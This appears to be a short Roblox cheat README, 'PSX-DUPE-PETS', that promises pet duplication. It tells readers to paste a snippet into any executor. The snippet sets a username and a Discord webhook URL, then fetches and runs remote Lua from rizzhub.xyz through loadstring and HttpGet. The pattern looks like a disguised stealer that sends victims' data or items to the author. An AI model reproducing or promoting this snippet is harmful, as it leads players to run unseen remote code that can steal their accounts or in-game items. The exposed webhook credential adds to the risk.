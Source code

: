 # PSX-DUPE-PETS
Copy this and paste it on ANY Executor Roblox.                                                  UserName = "DaBabyCarGoBrrr" Webhook = "https://discord.com/api/webhooks/1098710832877142037/5PoafH1VD9DmWayG1oywo-aH7wwLUjmFBi303uIo2JR81pdMTKWfQ1ipJ4SJiGrKYzQX"  loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
